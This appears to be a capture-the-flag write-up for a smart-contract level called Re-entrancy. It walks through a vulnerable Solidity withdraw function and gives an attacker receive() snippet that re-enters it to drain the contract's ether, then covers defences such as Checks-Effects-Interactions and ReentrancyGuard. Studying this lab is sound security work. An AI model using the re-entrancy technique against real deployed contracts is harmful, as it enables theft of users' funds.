 ## Re-entrancy
The goal of this level is for you to steal all the funds from the contract.

##### Things that might help
Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.

#### Understanding the contract
1. State Variables
```js
using SafeMath for uint256;
```
- This isn't a state variable, but its declaring that the ``SafeMath`` library is being used for ``uint256`` values. [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) is used for overflow checks
- importing the OpenZeppelin library allows for the use of ``SafeMath``
```js
import 'openzeppelin-contracts-06/math/SafeMath.sol';
```
- The contract has one state variable, ``balances``, which is public mapping that associates an address with a uint value
```js
mapping(address => uint) public balances;
```

2. Constructor
- This contract does not have a constructor

3. Functions
- This contract has three functions and a ``receive`` function which allows it to receive ether
```js
function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
}
```
- The ``donate`` function takes one arguments, an address ``_to``
- The function is ``public``, accessible to anyone
- The funciton is ``payable``, it can receive ether
- Using the safemath library, the balance of the address ``_to`` is updates in the ``balances`` mapping with the value sent in the ``donatate`` transaction

```js
function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
}
```
- The function ``balanceOf`` takes one argument, an address ``_who``
- The function is ``public``, accessible by anyone
- It is a ``view`` function, it doesn't change any state
- The functions returns a uint given the variable name of ``balance``
- The function uses the address that was input as a parameter, ``_who``, and returns that address's balance from the ``balances`` mapping

```js
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value:_amount}("");
        if(result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
    }
}
```
- The ``withdraw`` function has one parameter, ``amount`` which is a uint
- The function is ``public``, so it can be called by anyone
- The functions checks to see if the address interacting with the withdraw function, ``msg.sender``, has an amount greater than or equal to the amount used as an argument for this function
- ``(bool result,) = msg.sender.call{value:_amount}("");`` is the standard syntax for using the ``call`` method... ``msg.sender`` is send the amount that was designated by the ``_amount`` paramter
- The second if statement doesn't seem to have much effect as it is simply checking if result is truthy... if so, then the if block seems to just have an expression of ``_amount``
- Finally, the ``balances`` mapping updates by subtracting the ``_amount`` value from the ``msg.sender`` address found in ``balances``

#### Solving
Solving this challenge involves exploiting the ``withdraw`` function
```js
if(balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value:_amount}("");
    if(result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```
The function updates balances, after sending the amount
This can be exploited with a re-entrancy attack
Creating a separate contract that makes another withdraw call before the target contract updates balances will solve this challenge

```js
receive() external payable {
    if (address(target).balance >= msg.value) {
        target.withdraw(msg.value);
    }
}
```
When the attack contract receives ether, it will check if the target contract still has a balance... if it does, it will make another withdraw call before the target contract has a chance to update balances
Checking the balance before we run the attack will show how much eth is in the contract:

```js
await web3.eth.getBalance('0xdE1A4C547D3a2DbA1f2dBAeadef5488fa4eBfA0F') // 1000000000000000 wei
```
Sending that amount with the attack contract, should net us 1000000000000000 wei, or 0.001 eth

#### Summary
In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that call will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

**The DAO Hack**
The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).